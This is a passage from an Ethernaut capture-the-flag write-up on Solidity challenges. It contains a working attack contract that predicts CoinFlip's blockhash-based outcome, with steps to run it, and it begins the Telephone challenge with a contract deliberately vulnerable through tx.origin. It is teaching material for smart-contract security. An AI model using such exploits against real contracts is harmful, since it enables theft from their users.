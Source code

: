 ```
    constructor(CoinFlip _target) {
        target = _target; // instance of the CoinFlip contract to be attacked
    }

    // Attack function
    function attack() public {
        // Logic implementation used in flip() of CoinFlip
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;
        // Attacking contract
        bool attackSuccess = target.flip(guess);
        require(attackSuccess, "Attack failed");
    }
}
```
1. Deploy the `AttackCoinFlip` contract with `CoinFlip` address as an argument.
2. Invoke `attack()` 10 times to increase `consecutiveWins` state variable in CoinFlip contract (check whether `consecutiveWins` has a value minimum of 10).\
\
Submit the contract instance on Ethernaut to claim the win.
##### Takeaway
To get cryptographically proven random numbers, we can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.\
Some other options include using Bitcoin block headers (verified through BTC Relay, RANDAO, or Oraclize).

# 4. Telephone
### Challenge
- Claim ownership of the contract
### Purpose
Understanding the potential threat of using `tx.origin` for access check and potential phishing attacks using this. [link](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks)
### Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
### Solution
##### Explanation
**tx.origin-** Gives address of the EOA that initiated the tx (only EOA can initiate tx as of now). [link](https://docs.soliditylang.org/en/v0.8.20/security-considerations.html#tx-origin)https://docs.soliditylang.org/en/v0.8.20/security-considerations.html#tx-origin